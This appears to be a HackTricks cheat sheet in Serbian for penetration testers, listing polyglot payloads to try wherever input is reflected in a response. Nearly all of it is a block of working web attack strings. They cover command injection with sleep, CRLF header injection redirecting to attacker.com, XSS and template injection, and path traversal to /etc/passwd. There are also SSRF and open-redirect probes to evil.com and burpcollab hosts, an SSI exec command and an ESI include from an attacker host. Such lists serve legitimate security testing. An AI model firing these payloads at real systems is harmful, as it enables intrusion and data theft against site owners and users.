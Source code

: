 # Reflecting Techniques - PoCs and Polygloths CheatSheet

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

Cilj ovih PoC i Polygloths je da pruže testeri brz **pregled** ranjivosti koje može iskoristiti ako se njegov **unos na neki način reflektuje u odgovoru**.

{% hint style="warning" %}
Ovaj **cheatsheet ne predlaže sveobuhvatnu listu testova za svaku ranjivost**, samo neke osnovne. Ako tražite sveobuhvatnije testove, pristupite svakoj predloženoj ranjivosti.
{% endhint %}

{% hint style="danger" %}
Nećete pronaći ubrizgavanja zavisna od Content-Type-a kao što je XXE, jer ćete obično sami isprobati takve stvari ako pronađete zahtev koji šalje XML podatke. Takođe, ovde nećete pronaći ubrizgavanja baze podataka, jer čak i ako se neki sadržaj reflektuje, to zavisi u velikoj meri od tehnologije i strukture backend baze podataka.
{% endhint %}

## Lista Polyglotha

```python
{{7*7}}[7*7]
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
%0d%0aLocation:%20http://attacker.com
%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
<br><b><h1>THIS IS AND INJECTED TITLE </h1>
/etc/passwd
../../../../../../etc/hosts
..\..\..\..\..\..\etc/hosts
/etc/hostname
../../../../../../etc/hosts
C:/windows/system32/drivers/etc/hosts
../../../../../../windows/system32/drivers/etc/hosts
..\..\..\..\..\..\windows/system32/drivers/etc/hosts
http://asdasdasdasd.burpcollab.com/mal.php
\\asdasdasdasd.burpcollab.com/mal.php
www.whitelisted.com
www.whitelisted.com.evil.com
https://google.com
//google.com
javascript:alert(1)
(\\w*)+$
([a-zA-Z]+)*$
((a+)+)+$
<!--#echo var="DATE_LOCAL" --><!--#exec cmd="ls" --><esi:include src=http://attacker.com/>x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}${{<%[%'"}}%\
<xsl:value-of select="system-property('xsl:version')" /><esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl"></esi:include>
" onclick=alert() a="
'"><img src=x onerror=alert(1) />
javascript:alert()
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
```